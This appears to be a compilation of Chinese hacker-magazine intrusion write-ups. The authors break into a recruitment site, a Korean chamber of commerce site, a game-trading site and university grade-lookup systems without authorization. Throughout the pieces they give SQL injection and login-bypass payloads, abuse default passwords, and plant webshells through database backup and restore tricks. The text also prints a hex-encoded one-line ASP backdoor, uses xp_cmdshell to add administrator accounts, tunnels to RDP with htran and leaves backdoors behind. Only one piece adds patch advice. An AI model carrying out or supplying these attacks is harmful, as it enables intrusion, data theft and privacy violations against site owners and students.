接下来内容总结了通过修改图片木马地址并保存为 asp 木马即可实现跨权限改主页；随后补充说明 cookie 与 session 的区别，并以本次渗透过程作结。

> **保黑问吧**
>
> **问：** 我在作图或编程时常离开电脑思考，时间一长再回来就死机，为什么？  
> **答：** 文中解释与 Windows 休眠/唤醒及输入信号相关，长时间离开后设备状态切换可能导致数据出错，建议离开前先保存。
>
> **问：** Windows XP 无法通过“添加/删除程序”进行操作，并提示“本次操作由于计算机限制而被取消”，如何处理？  
> **答：** 可通过注册表策略项修复（如 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下相关键值）。

# 人才怎么就被我搞晕了呢？

琼的木瓜

又到了该毕业的时候了，天天忙着找工作，跑招聘会是必不可少的，而那些人才网站，自然也就成了我每次上网访问的目标。我们当地的这个人才网挺火的，无论是公交车还是招聘现场都打满了它的广告。作为一个网络安全爱好者，在办正事之余，我理所当然地又开始测试这个网站的安全性如何了！

打开这个人才网站的主页，似乎提供“asp?id=”这种形式的链接，通常这都是传递参数的地方，也是最容易出现问题的地方。既然使用的是 asp 形式，对方主机应该是 Windows 系统（支持 asp 的 Unix/Linux 我可是还没听说哟），打开该链接在最后提交了个“1”，呵呵，果然出错了！不过与我们以前遇到的信息有很大的不同，如图1。

这个返回了错误信息，如图2、图3所示。由此，我确定对方存在注入，而且是 int 类型的！提交：

```text
id=263 and (select count(*) from user_tables)>0--
id=263 and (select count(*) from user_tab_columns)>0--
id=263 and (select count(*) from all_tables)>0--
```

返回信息提示说语句有错误，看来这个页面对提交的参数做了一些限制，而且没有系统表，猜测 Oracle 也很麻烦，再试试一些 users 表也显示不存在。至此我就没有再试探下去。我放弃了猜测管理员密码这个思路！既然这个网站对参数过滤得不好（如果好的话也不会在这样的 URL 里给出错误信息了），那么不知道其他一些敏感的页面有没有对参数做详细的过滤！什么是敏感的页面呢？打开 Google，在搜索框输入“后台 site:rc.XXX.cn”，呵呵，出来好多信息哦，如图4。


图1


图2


图3

OraOLEDB，似乎是 Oracle 数据库哦！我也经常看黑客 X 档案，不过，关于 Oracle 数据库的文章好像挺少的哟，我顿时来了兴趣。既然出错，就说明很可能存在注入！我继续提交“id=263 and 1=1”和“id=263 and 1=2”，一个返回了正常的信息，—


图4

如果这些后台没有过滤好参数，并且编写的 SQL 语句也有问题的话，我们就可以直接进入后台哦！先来说第一个链接吧！后台是 `www.rc.XXX.cn/hjl/`，这样的后台估计使用啊D等猜测工具是猜测不出来的，幸亏我有 Google。进入后台登录的地方，先使用用户名 admin，密码 admin 进行登录，提示没有用户，那么我们就换个方法吧！分别在用户和密码里填“admin' or '1'='1'--”，如图5，这跟在 MSSQL 里使用是一样的。


图5

如果它验证的方法是 `select * from 表 where username='' and password=''`，而我们提交 `admin' or '1'='1'--` 的语句就会变成 `select * from 表 where username='admin' or '1'='1'--`

# 一个人的战争

…and password='admin' or '1'='1'--。而“--”是注释，这样就会把表里的第一条记录取出来，我们就可以绕过验证顺利登录了！我们提交的结果证实了这一点，如图6，成功登录哦！加上上传文件的类型，不过，被我鼓捣半天后发现有个新增样式，如图9，居然可以自定义上传的文件！


下一步做什么呢？当然是想办法获得 shell 了！我们去发表文章的地方看看，有上传哦！但是当我上传 asp 等文件的时候，却不成功，好像都被做了限制，提示是非法文件。我又仔细看了看，发现此时的权限根本不可能更改上传文件的类型。我开始查看源文件，看是在哪儿验证的。结果发现了一个重要的信息，如图7，嘿嘿，是程序员的注释，好像用了什么 eWebEditor 哦！


这个信息很重要，我从网上搜索了一个 eWebEditor 下载下来，这个东西有自己的管理界面，还有默认的用户名和密码！赶快试试登录 admin_login.asp，页面果然存在哦！输入默认的用户名 admin，密码 admin，如图8，成功登录！看来最大的漏洞还是管理员的安全意识，人为的漏洞啊！

那么就增加一个 cer 后缀的上传文件类型吧！增加完样式，去相应链接里打开看看，选择一个被改名成 cer 的木马上传！哈哈，成功，查看代码得到了 webshell 的路径，如图10，访问一切正常！不会连杀毒软件都没有安装吧！哈哈，如图11，试试权限发现服务器根本没有权限这个概念似的，没有任何限制，还可以执行命令！看了一下发现管理员组有5个人，提权应该是很简单的事了！至此这么大的人才网被一点点撕开，最后覆灭！通过入侵发现，该人才网站的安全性并不怎么好！事实上，通过一些简单的配置是完全可以堵上这些安全漏洞的，譬如设置 IIS 的错误提示，判断提交参数是不是字符，是字符类型的话就过滤“'”，还有就是设置 Upload 目录的脚本执行权限，最后就是不要使用默认的帐号密码，特别是网络上的程序更会带来安全隐患！有时入侵靠的就是个思路，如何一点一点发掘可能的漏洞，一条路不行的时候赶快换另一个，才是很快入侵成功的方法！这里也给管理员一个警钟，最大的漏洞也许正是你自己配置上造成的哦，就像这里的 eWebEditor 的默认口令。


那么如何获得 webshell 呢？在后台我发现根本没有办法添…


# 韩国商会网站，读菜鸟之招

闲来无事打开 Google，开始搜索关键字寻找国外的动态页面网站，现如今使用动态页面建站的太多了，这不，找到了一个！进入后发现页面上显示的英文名称为：Korean Chamber of Commerce，翻译过来是韩国商会的意思，幸亏我英文还可以，呵呵！

大致浏览了一下主页上的链接，发现了一个存在数据提交的页面，于是习惯性地在该地址后加个“'”，页面返回了错误信息，如图1。


从浏览器返回的信息我们可以获知该网站使用的是 Access 类型的数据库，接着提交“and 1=1”和“and 1=2”，条件为真时返回正常页面，为假时返回错误信息，如图2。由此可以证明该地址存在注入漏洞。


由于对方使用的是 Access 数据库，手工注入去猜表名和列名过于烦琐，于是我请出注入工具来帮忙。拿出 Domain3.5 开始对该地址狂扫，不一会儿结果就出来了，如图3。很幸运地把对方管理员的帐号和密码都猜了出来，但后台地址在哪儿呢？赌一下吧！直接在该网站的域名后输入 admin 回车，管理员登录页面乖乖地出来报到了，如图4。真是不费吹灰之力！


输入刚才得到的管理员帐号和密码进行登录，成功进入了该网站的后台，如图5。


想到现在国内网站后台上传漏洞正火，来看看韩国朋友的后台又如何！可上传文件的地方在哪儿呢？我在后台转了一会儿，发现在图5中的“NewsList”处随便找条新闻，然后点击“edit”，就进入了编辑新闻的页面，把滚动条往下拖，就来到了如图6所示的地方，计算机英语学得好的朋友想必应该能看懂上边的英文吧！


不错，这里就是上传附件的地方！我们点击“attach from my PC”来上传附件，之后弹出如图7所示页面。看见我标记的地方没有？那里就是我们上传的文件在服务器上的目录信息，这下不用为找目录发愁了！为了证实我的说法，我在第一个上传附件的地方上传了我写的一个简单的 asp 文件，一方面为了测试对方允不允许上传 asp 格式的文件，另一方面就是测试上传的文件保存到服务器上的目录信息。结果非常顺利，页面提示上传成功！我在网站地址后输入刚才得到的上传目录和上传的文件名信息，结果成功显示了文件的内容，如图8。

既然能够上传 asp 格式的文件，那就把我们的小马传上去啊！为了防止对方杀软的追杀，我选择上传一个使用工具加密过的小马，结果上传成功，如图9。输入小马的地址，呵呵，过去了，加密10。紧接着又传了个海阳上去，如图11。登录后果然发现可以利用 webshell 直接编程访问网页文件或者上传任意文件到服务器，前提是对方的 web 目录是可写的。不知道是对方管理员的失误还是已经有人进来提权把 web 目录改成了可写，不过这可方便了我！先把对方的注入漏洞给补上，然后删除“前辈”们留下的“宝贝”，留下自己的超级后门，闪人！


## IIS+Dvbbs7.1 sp1 拿到 webshell

关于动网 7.1 版本如何得到 webshell 的文章，我在以前杂志上也看到过，但多数都是使用恢复数据库的办法来将网页木马改回来。之所以没有采用备份数据库的办法，是因为动网在 7.1 sp1 版本以后的备份数据库部分加了数据库验证功能，这样由于我们上传的图片木马并不是一个符合标准的 Access 文件，所以在采用备份数据库恢复文件时会提示文件格式不正确，从而无法进行备份。但动网真的是百密一疏，在备份数据库的部分加了验证代码，但偏偏在恢复数据库部分没有加，这样我们仍然可以采用恢复数据库的办法来得到 webshell。

我所说的办法是在得到了动网后台管理员的密码后进行的，至于如何得到后台管理员的密码，此类文章在以前的 X 档案上多次介绍过。对于菜鸟朋友，可以直接使用“挖掘鸡”来尽情地“挖”！现在网上采用默认数据库的网站很多，把对方的数据库下载后直接去破解管理员的 md5 密码，然后就是登录后台了。首先是使用管理员的用户名和密码登录后台，新建一个版面，然后使用管理员的 ID 发新帖，里面有上传文件的功能，每天限上传100个文件，这个数量对我们来说已经足够用了。还是老办法，将一个小马改为 .gif 扩展名然后上传，结果是上传成功，并且把上传到服务器上的路径和文件名等信息直接反馈给了我们……

但即使对方通过备份或者恢复数据库功能来得到 webshell 也是行不通的！废话不多说了，还是回到我们的话题上来。记下这个地址，然后我们进入后台，尝试使用恢复数据库的办法来得到 webshell，结果程序提示：“不可识别的数据库格式 ‘C:\dvbbs\UploadFile\2005-3\20053415342248711.gif’。备份的文件并非合法的数据库。”


起初我遇到这个问题的时候仔细想了很久，最后一个偶然的机会我注意到了刚才提示的那段话中的“不可识别的数据库格式”，因为我们的方法是把 asp 木马的扩展名改为 .gif 然后上传，虽然上传那关是欺骗过去了，但是由于动网的最新版使用了数据库验证函数对要备份和恢复的数据库进行检查，如果不是合法的数据库就不允许备份或者恢复。这个时候我想起了前一阵子在网上下载的一个名为“蓝色动网空数据库合并成伪 ASP 木马专用工具”的工具，它的原理是将一个空数据库与 ASP 木马进行捆绑。想到这里我突然有了灵感，那就用它来把我们的小马与一个空的数据库捆绑在一起，这样当恢复数据库进行函数检查的时候，由于我们的文件中含有一个空的数据库，符合合法数据库的要求，这样就把数据库验证这一关过了，而且里面还有我们的小马的代码，恢复成 ASP 文件后一个 webshell 不就诞生了吗？！理论上是这样，让我们检验下是否能够成功。工具运行后如图2所示。


“打开文件”中选择一个小马进行捆绑，最后在要保存的文件名中把它保存为一个 .gif 文件，因为我们要把它上传到服务器中嘛！一切准备就绪后点“开始上传”，最后保存到服务器中的地址如图3所示。我们接着来到后台，将刚才得到的地址填进去，提交，提示“成功恢复数据！Bingo！备份成功了！


快输入我们的小马的地址 http://127.0.0.1/dvbbs/UploadFile/2005-3/20053416111887038.asp 看看吧！呵呵，可爱的 webshell 终于诞生了，如图4。


至此我的测试就算结束了，如果大家还有更好的办法欢迎到 X 的论坛上（http://www.hackerxfiles.net/index.php）与我交流。（文中涉及到的工具蓝色动网空数据库合并成伪 ASP 木马专用工具已经收录于光盘中）


## 游戏交易网站渗透实战

这次我要入侵的目标是一个游戏交易网站，这个网站使用的是 asp 系统，而且还装有“动网”论坛。我的习惯是先检测论坛，因为论坛是最受高手关注、发现漏洞也是最多的，特别是动网论坛。

打开论坛链接，查看论坛版本，是 DV7 + sp2 + access，这个版本在前段时间爆出了很严重的漏洞，可以使普通用户提升到管理员权限。不过经本人测试并不是所有的 DV7 sp2 论坛都可以提升权限成功。先来看看论坛的管理员用户名和密码是不是默认的，用户名输入 admin，密码 admin888，登录失败，看来这个网管还不是白痴。

我们再来看看能不能下载论坛的数据库，在 IE 的地址栏中提交 www.xxx.com/bbs/data/dvbbs7.mdb、www.xxx.com/bbs/databackup/dvbbs7.mdb、www.xxx.com/bbs/data/dvbbs7.asp、www.xxx.com/bbs/databackup/dvbbs7.asp，均不能下载。看来这个管理员对于网络安全还是有一定了解的。

还有什么方法可以入侵呢？对了，旁注！拿出 Domain 开始检测，却提示“该 IP 地址没有绑定任何国标域名”，如图1。重新打开这个网站，随便点开一个链接，查看链接地址 www.xxx.com/show.asp?id=7。对了，怎么忘了检测 SQL 注入呀。于是使用“and 1=1”“and 1=2”简单地测试了一下，果然漏洞存在。继续使用 Domain 检测，不一会儿，管理员帐号和密码就猜解出来了，如图2。


再检测网站后台地址，也顺利地猜了出来。打开网站后台输入密码，成功登录。这个后台很简陋，感觉就好像是自己编写的。转了好久也没有发现有上传的功能，看来后台是没什么利用价值了，郁闷！对了！网站后台的密码会不会和论坛的密码相同呢？我在论坛输入刚才得到的帐号密码，居然登录成功了，太爽了。不要高兴得太早，要能登录到论坛后台才算是真正的成功。

打开论坛后台，再次输入密码。更爽了，也成功地登录了。剩下的工作就是上传 asp 木马了。先看看主机是否支持 FSO，只有支持 FSO 我们才能通过备份数据库的方法得到 webshell，如图3，主机支持 FSO。按照原有的方法我们把 asp 木马改成允许上传的格式，然后上传。可是，意想不到的情况发生了，如图4，居然不能上传！再看看能不能上传正常的图片，也不行！郁闷之极！


无目的地在后台点来点去，这时点到了“上传头像管理”，却发现里面躺着两份 asp 文件，如图5，莫非是木马？我打开 2006.asp，熟悉的界面出现了，这不就是海阳 2006 版么，如图6。看来这个网站早有兄弟捷足先登了。


网站权限就在眼前，要怎么知道它的密码呢？试试默认密码，不成功。这时灵光一闪，对了，可以利用数据库备份功能把 asp 木马备份成 txt 格式文件，然后在 IE 中浏览，这样不就可以正常看到木马的内容了吗，如图7。备份成功后在 IE 中浏览，如图8，密码显示出来了！这回总算是有个 webshell，可以进一步渗透主机了。


webshell 中提升权限目前最常用的方法就是利用 serv-u，不过，我在 asp 木马中查看开放服务却没有发现 serv-u。那就替换系统服务，到 C:\winnt\system32\ 下看看能不能写入，失败。再到“C:\Documents and Settings\All Users\「开始」菜单\程序\启动”目录下上传个木马等它启动时自动运行，也不能写入。看来主机使用的是 NTFS 分区，有权限设置。沉住气，再在 webshell 中执行 netstat -an 命令，看看主机都开放了哪些端口，如图9，可以利用的端口只有 1433 和 3389。先来试试 1433 溢出，没有成功。那就只好找 MS-SQL 的密码了。


ms-sql 的连接密码一般都会存放在 conn.asp 的链接文件中，于是我就在网站的目录下寻找 conn.asp 文件。在 D 盘 wcb 目录下看到了 www.yyy.com 文件夹，看来这也是一个网站的目录。打开文件夹发现了一个 conn.asp 文件。打开看看，竟然是 SA 连接权限，如图10。这下太爽了，ping 一下 www.yyy.com，发现和 www.xxx.com 是同一 IP 地址，也就是说这2个网站在同一台服务器上的，拿到 www.yyy.com 的 sa 权限也就等于拿到 www.xxx.com 的服务器权限。接下来的思路就是拿出工具连接，再利用 xp_cmdshell 添加管理员账号，最后通过 3389 远程登录。


可是我用工具连接数据库时，却弹出“连接失败”的对话框，看来是被对方的防火墙给拦截了。诱人的 SA 账号摆在眼前却无法利用，世上最痛苦的事莫过于此。

既然 yyy 网站是用 sa 权限连接的，那我们就看看他们有没有注入漏洞，如果有的话注入的权限也是 SA 权限。打开 yyy 网站找到“asp?”链接，使用“'”“and”测试，却让人失望。既然我们有网站的读写权限，那就意味着可以手工把“'”“and”的限制去掉，然后再 SA 权限注入，如图11。

```asp
if not isnumeric(request("id")) and request("id")<>"" then
    response.write "错误的系统参数!ID必须是数字"
    response.end
end if
```

isnumeric 函数判断变量的值是否可为数值，如果 id 参数不是数值而且 id 参数不为空，程序就会执行“response.write '错误的系统参数!ID必须是数字'”。只要我们把“not isnumeric(request("id")) and”这句删除就可以正常注入了。删除后，拿出 NB 进行测试，如图12。


图12，出来了 SA 权限。接下来就是直接添加管理员账号，如图13，却提示“意外数据”。怎么会？难道 xp_cmdshell 被删除了？我又试了下“net user”命令，可以正常执行呀，但 ashy 的帐号却没能添加成功。为什么呢？再来试试用 net1 添加，也失败了。再在本地写了个添加管理员帐号的 bat 文件，webshell 中上传，在 NB 中执行，还是失败！都已经拿到 SA 权限了，不能就这么不明不白地放弃，一定要把原因找出来……N 长时间后，好友小俊上线了，我把问题和他一讲，他告诉我说可能是安全策略中的密码策略搞的鬼，而且还告诉我突破的方法，如图14。


从图14中可以知道密码策略中设置的密码最长为14位，那么我们就添加个14位带有大小写字母和特殊符号密码的账号，如图15，哈哈，终于添加成功了！


有了管理员账号，接下来就是登录3389实现对主机的进一步控制，既然对方有防火墙，那么3389也很有可能不对外开放，不出所料，如图16。这个问题很好搞定，使用 htran 进行端口重定向就可以摆平。


- 本机运行：htc -F -p 3389 xxxx:80
- 目标运行：hts -F localhost:3389 80

连接重定向后的 IP，连接成功，如图17。最后给管理员提了个醒，擦擦 PP 闪人。菜鸟的入侵就是这么简单！  
（文中涉及到的工具 nbsi、htc 已经收录于光盘中）

# “猜”出高校查分系统

剑心 [B.C.T]

Sql 注入攻击是多姿多彩的，总拿工具注入人家网站后台密码搞入侵的菜鸟们有没有想过利用 Sql 注入也能帮你的同学越权查询查分系统的数据库呢？今天我就带大家利用 Sql 注入猜测的艺术来入侵高校查分系统！总利用 Sql 注入搞破坏是不好的，还是帮你的同学做点“好事”查查分这一下吧：）

最近我们班去年考研的人分数都下来了，高校网站上都相应地公布了查询系统。我们班的那几个家伙查到自己的分数还不满足，总想提前知道自己在整个考生里面的排名，好推算自己到底有没有录取，也好早为将来的生活做打算，于是请我去查下别人的成绩。呵呵，我很理解他们的心情，于是就到报考的高校网站测试了起来！

在动手之前先分析一下我们的目标，是要得到其他人的成绩等信息，秉承着简单就是最好的原则，我打算直接从查分系统下手，因为查分系统通常是连接 Sql 数据库的。如果存在 Sql 注入漏洞的话，我们就可以精心构造提交的参数查询别人的分数了！思路出来了就开工吧！我的第一个目标网站是北京工业大学研究生分数查询系统。到那儿仔细逛了一圈，呵呵，使用的是 Jsp 哟，我不是很懂，不知道使用的是什么数据库，幸亏 Sql 注入是针对数据库的攻击，跟语言没有什么关系！知己知彼才能更好地进行后面的操作！所以首先来判断是什么数据库吧！在考号的地方提交“123456'”，如图1。一般的数据库对“'”都是很敏感的，提交后页面给出了“没有你的成绩”的提示信息，没有出错哦，如图2。


继续提交“123456' or 1=1--”，还是显示“没有你的成绩”……

# 一个人的战争

“赞”。是没有 SQL 注入漏洞还是出错了？再提交“123456' or 1=1/*”，如图3。

终于出来了一个人的成绩，如图4。嘿嘿，证明我们提交的“or 1=1”被当成 SQL 语句执行了，肯定是存在 SQL 注入漏洞了！并且执行结果没有出错哦！说明我们的注释起了作用！


整理一下思路，通过上面的注入我们知道对方的系统是 JSP + MySQL，因为 Access 是不支持注释的，而 SQL Server 和 Oracle 是支持“--”注释的！我故意在后面留了个“'”没有匹配，就是看他支持什么注释字符，结果一下子就确定了对方是 MySQL 数据库，因为“/*”这种注释方式只有 MySQL 是支持的！这里很幸福的是 JSP 里没有 PHP 里那么变态的设置，把所有的单引号转换成普通字符。现在完全可以当成普通的 MySQL 注入了，但是大家不要忘记了我们的目标是得到成绩而不是入侵服务器，所以我强忍住入侵服务器的口水继续想办法猜测别人的号码。

我们知道准考证号是连续的，所以按照同学的意思就是把他准考证号周围的成绩全查出来，而这里要求准考证号之外还要求输入姓名，所以我们的目标是如何把姓名屏蔽掉！还是发挥 SQL 猜测的魅力猜测他语句是怎么验证的吧！我们将准考证乱填成“123456'/*”这样的形式让他记录为空，然后姓名乱写的话提交返回的是没有成绩。我们分别测试：

```text
123456'/*  dddddddd
123456' or '1'='1'/*  dddddddd
正确的号码/*  dddddddd
正确的号码/*  ddddd' or '1'='1
正确的号码' and '1'='1  dddddddd
正确的号码' and '1'='1  dddddddddddd' or '1'='1'
```

可以判断他是将用户提交的准考证号和姓名一起放到查询中，执行后看看返回的结果是不是为空，如果不是为空就显示给用户结果，看起来就好像下面这个样子：

`select * from 成绩表 where 准考证='输入的准考证' and 姓名='输入的姓名'`。

呵呵，我们需要绕过的关键字在后面，所以如果我们提交准考证号码和姓名为：

```text
准考证号码：a'/*
ddddddddddd' or '1'='1
```

就可以使 SQL 语句变成：

`select * from 成绩表 where 准考证='准考证号码' or '1'='1' and 姓名='ddddddddddd' or '1'='1'`。

整个记录就会变成查询到我们输入的准考证号码的那个记录，就可以查询别人的成绩了，提交如图5所示，得到的结果如图6。呵呵，我们的目的达到了，剩下查询的苦力活就交给他自己了！


刚忙完，又有同学来找了，他想看看大连理工大学的其他同学的成绩，呵呵，既然如此，那就再去看看吧！去大连理工大学的查询系统一看，呵呵，使用的是 ASP，在极大型服务的时候它通常搭配的是 SQL Server 哦！如果有过滤问题就好办了！直接在输入准考证号的地方写上“'”，等特殊字符提交，结果发现被限制了，如图7。


嘿嘿！不过看起来像是 JSP 本地验证的哦！好办，查看他的源文件提取其中的表单并且修改 action 地址后保存网页，如图8。

看起来简洁多了。再加入我们的探测字符“'”提交，哈哈，出错了，错误信息还很详细，发现果然是 SQL Server 的，语句基本也出来了，如图9。


图8


图9

自己构造匹配条件：查看源文件发现准考证号的变量名字为 ksbh，那么我们可以构造这样的身份证字串……提交后如图10所示，成功后的结果如图11。


图10


图11

能不能搞简单点？我把提交的地址和参数构造了一个存在 SQL 注入的 URL……这里我们想要查看别人的成绩的话必须知道别人的身份证和准考证才可能查询。

```text
123456' or '1'='1
123456' or '1'='1
```

基本可以知道他的语句是这样写的：

`select * from 成绩表 where 身份证='输入的身份证' and 准考证号='输入的准考证'`……

为了查询出我们需要的指定记录，我们要把关键字放在前面。

具体情况下分析所要的目标和所处的环境，然后写出利用的语句，这才是 SQL 注入猜测的艺术……文章只是做技术性质的探讨。

前几天，偶逛“一米阳光”ASP论坛程序，经过一番扫描，发现其 `eleslist.asp` 中有一个注入点……


# 一、再见注入点

看来我和 lqtoy 就是有缘，在 6KBBS[lqtoy]美化版的 `eleslist.asp` 中，同样存在注入点，所涉及的 BUG 源码如下：

```text
userid=Request.QueryString("userid")
action=request.querystring("action")
...
sql="select * from topic where userid='"&userid&"' and type ..."
```

```text
sql
>order by edittime desc|
  case ""+[usertop]
  sql="select * from topic where id in(select pid from
bbs_&totable& where userid='"&userid&"')and type<>3 order
by edittime desc"

end select
```

注意其中的“userid”，此提交参数未经任何过滤就引入进了 SQL 语句，很典型的注入点。作者在本地搭建 6KBBS 进行测试，围绕 `eleslist.asp` 页面，通过构造 `action=usertop&userid=...` 参数验证回显差异，并利用 `or` 条件判断返回“0张帖子”或帖子列表，从而确认布尔注入可行。


图1下文继续说明：若 `userid=1` 的用户不存在或无发帖，可用 `or` 组合如 `1=1`、`1=2` 对比页面；若用户有发帖，则应改用 `and` 连接条件，避免回显干扰。

随后给出利用思路：先确认管理员 ID（示例为2），再构造类似 `...userid=1 or 90<(select asc(mid(password,1,1)) from [user] where userid=2)` 的语句，通过页面返回真假逐位猜解管理员 MD5 值。


右栏上部描述了将注入语句填入“通用注入”工具：在“ID”中输入 `1`，将条件切换为 `or`，在“字段”选择 `password` 与 `[user]`，并设置 `userid=2`。由于左侧语句已提供关键结构，右侧部分主要用于多项判断配置。


接着点击“查询构造”“测试”，从返回源码中提取关键字，选择“正确字符”并执行“猜测MAX”，可先判断 MD5 长度（示例为16），再启动破解流程，程序持续刷新并累积 MD5 判断结果。


### 二、整蛊6KBBS

拿到管理员 MD5 后，可进一步通过 Cookie 欺骗方式以管理员身份登录论坛并发帖回帖。文中示例使用 `iecvc15 (IECookiesView)` 在本机站点 `127.0.0.1` 下查看与修改 Cookie 数据。


在第一项上点右键，选择“编辑 Cookie 的内容”，打开“Cookie编辑”窗口，修改键值内容：“lgpwd=49ba59abbe56e057&lgname=jmdcw&lgcook=1&lgtype=1”为“lgpwd=a75e9a948277ef41&lgname=lqtoybbs&lgcook=1&lgtype=1”。然后点击“更改 Cookie”，完成修改！再用新的 IE 窗口打开 6KBBS，如图6，嘿！现在的用户名就是“lqtoybbs”了！权限嘛！当然是前台管理员了！


图6

如果觉得前台的权限太小，那么就想办法登录后台吧！

## 方法之一

用上面的“通用注入”工具，猜出后台管理员的“名称”及其“MD5”（注：后台的表名称是“admin”，其中所对应的字段分别是“name”（名称）和“password”（MD5密码）），然后用 MD5 暴破工具算出，至于暴破 MD5，就要看运气了！

## 方法之二

不知道大家是否注意到 6KBBS 所带的音乐功能？它默认的数据库是“论坛目录/music/music.mdb”，这里面有一个“admin”表，其中的用户名及密码是明文显示的，如果管理员够细心的话，一般会更改其管理密码，这样，用这个密码去登录论坛后台，说不定就能登录进去了！呵呵，细心反而成了错误！

## 三、权限再提升

如果有幸进入了后台，那么有没有办法再提升一下权限呢？在上传方面，6KBBS 已经设置得很严格了，想从此处突破是很困难的！俗话说，条条大路通罗马，在后台转了一圈后，我发现数据库备份是个突破口！

需要说明的是，利用数据库备份的一个前提条件是要知道数据库的名称。也可以尝试使用“%5c”暴库的方法，因为 6KBBS 的“conn.asp”中并未加入容错语句，在实际测试中，有些网站的数据库就被暴了出来！下面我以 6KBBS 美化版默认的“lqtoybbs36.mdb”做示范！

首先选择后台的“执行 SQL 语句”，在“SQL语句”中输入如下内容：

`update notdown set notdown=0x3C2565786563757465287265717565737428226C222929253E`

知道为什么数据库由 MDB 改为 ASP 后，就不能下载了吗？

原因就在“notdown”表中，这个表中的“notdown”字段类型是“OLE对象”，其值是“<%”的16进制，而 ASP 文件是讲究语句对称的，有“<%”，就要有“%>”！而“notdown”字段仅有“<%”，所以当我们在 IE 中打开 ASP 格式的数据库时，就会出现“Script块缺少脚本关闭标记(%>)”之类的错误提示！上面的“update”语句，就是将“notdown”字段中的原“<%”更改为“<%execute(request("l"))%>”（一句话木马）。输入 SQL 语句的默认执行密码“6kadmin”，然后执行 SQL 语句！如果语句输入无误，返回的就是“操作成功”。

OK！下面我们来备份数据库，选择后台的“论坛数据库”，在“原来的数据库路径”中输入“date/lqtoybbs36.mdb”，在“备份的数据库路径”中输入：“date/jmdcw.asp”，如图7。


图7

6KBBS 的“原数据库”名称是从“conn.asp”中读取的，如果这里输入的和“conn.asp”中的不一样，那么就会出现“备份失败，请确定您输入的路径都正确。”之类的提示。但是，对于“备份的数据库路径”，其要求就没那么严了！利用这点，我们就可以将 MDB 格式备份成 ASP 格式，当然还可将这个 ASP 文件备份到其他目录中，如：“upload/jmdcw.asp”。

备份成功后，在 IE 中输入 http://127.0.0.1/6kbbs71/date/jmdcw.asp，检验一下成果，如图8，错误信息是“类型不匹配：'execute'”。一句话木马寄身成功，接下来用一句话木马客户端连接这个 ASP 文件，就可以写入更强大的木马了！


图8

## 四、漏洞及时补

有了漏洞，就要及时修补！亡羊补牢，犹未晚矣！

- 1. 注入补丁：修补“eleslist.asp”中的 BUG，将“userid=Request.QueryString("userid")”改为“userid=checknum(Request.QueryString("userid"))”，用程序自定义的“checknummm”函数进行过滤。
- 2. 暴库补丁：在论坛数据库链接文件“conn.asp”和音乐数据库链接文件“htconn.asp”中加入容错语句：“On Error Resume Next”。
- 3. 备份补丁：修改“adminfso.asp”中的数据库备份代码，加入备份数据库扩展名的检测语句。

```text
if fso.fileexists(Server.MapPath(Request("using"))) and trim(replace(request("using"),"'",""))=db then
  ...
and Lcase(right(trim(request("bak")),3))="mdb" then
```

- 4. SQL语句补丁：在“adminright4.asp”中查找“SQL语句执行”的默认密码“6kadmin”，将其修改为其他字符。

（文中涉及到的一马通过注入0x、ASCII转换ASCII-zh.exe、一句话木马连接客户端.htm、IECV15已经收录于光盘中）


# 看菜鸟入侵网站

## 思路与关键点

其实本人也属菜鸟行列，经常看黑客X档案，也时常浏览安全焦点、绿盟等安全论坛。这篇文章就是我在学习网站入侵（注入攻占）过程中的一个小小总结，希望对广大的菜鸟兄弟有所帮助。

## 第一关 了解整站程序

查找所要入侵的网站采用的什么整站程序，这对于菜鸟来说是很重要的。了解之后可以先用 IIS 搭建平台进行测试，而作为管理员，也会将这类信息改了再改，让我们看不出来。不过还是可以通过网站的一些“关键字/关键页面”，使用 Baidu、Google 等搜索引擎进行搜索。

以“动力文章管理系统”为例进行说明，找到一个网站 www.****.gov.cn，将其 URL 粘到 FlashGet 的“站点资源查找器”中，将会列出一些网站文件，有一个文件引起我的注意“copyright.asp”，去看一下（图1）。我们使用“动力文章管理系统版权及免费声明”作为关键字进行搜索，就可以搜索到许多类似的网站。


5. 我们看一下“/inc/syscode.asp”，这个很重要，有可能会暴出库来，我试过80%左右的都可以暴出库来，如图4。


## 第二关 注入点、暴库

关于注入点的检测我们都会用相应的工具，个人认为“啊D”较灵活，“NBSI”与“HDSI”执行命令与上传不错。不过我们也可以使用一些简单的字符组合来进行系统的探测。

- 1. `'`，这个是最传统的了；
- 2. `%5C`，这个也不错，“%5C”是“\”的 ASCII 码值，因为直接输入“\”会被服务器解析为“/”；
- 3. `and 1=1/and 1=2`，这个就不说了。

用以上的方法我们可以简单判断出注入点的位置，不过还是工具好用。下边这个地址是使用啊D检测出来的：

http://www.****.gov.cn/ShowContain.asp?zt=20060199  
http://www.****.gov.cn/ShowArticle.asp?ArticleID=356

如图2。

4.`and (select @@version)>0`，用于查看系统的属性，“@@version”为 MSSQL 的全局量，图3。


## 第三关 后台、权限、上传

在得到注入点后，我们就可以猜解表与内容，如果发现诸如“admin”之类的，就可以猜其后台账户与密码，同时还可以使用工具猜解/管理页面（这个整站程序较特殊，管理页面就在下面），不过网站可以禁止外部登录或改页面的。我们可以通过克隆备份来实现，这方法同时还可以解决不是 SA 权限的问题（例如：DB_OWNER 权限）。

```text
格式：
1. 注入点: `create table [dbo].[tmw] ([cmd] [image])`。
2. 注入点: `declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s=0X730071006C006600750063006B00 backup database @a to disk=@s`，@s为备份名称（16进制）。
3. 注入点: `insert into [tmw](cmd) values(0x3C2565786563757465287265717565737428226C222929253E)`，其中的16进制代码为木马的代码。
4. 注入点: `declare @a sysname,@s nvarchar(4000) select @a=db_name(),@s='D:\Centre_Lan\lijian\cmw.asp' backup database @a to disk=@s WITH DIFFERENTIAL,FORMAT`，备份位置。
5. 注入点: `drop table [tmw]`。
```

如果是 SA 权限，就可以通过注入工具的上传文件功能来实现 ASP 木马的上传，或者使用 exe2bat 工具将 exe 木马转换成 bat 批处理文件上传。但是我们又引出了下一个问题：对于登录管理之后（前提是破解管理密码，一般是 MD5 散列，可以通过网站或工具进行破解），我们可以通过上传或添加风格进行一句木马的写入（这类文章请详见以前的 X 档案）。

# 第四：网站目录的问题

查看网站路径的方法主要有两种：一是读取注册表项，在啊 D 的工具中有此项；二是通过注册表项写入你在数据库自己建的表，再爆出字段（该方法在 2 期 X 上已详细描述）。如果网站服务器与数据库服务器不在同一台主机上又怎么办呢？我们上传的文件只能在数据库服务器，我们要想办法将其传到网站服务器上。首先是通过命令行进行检测。

- 1. `net view`，列出共享资源，如图 5。  


- 2. `net view /domain`，列出所有的工作组，如图 6。
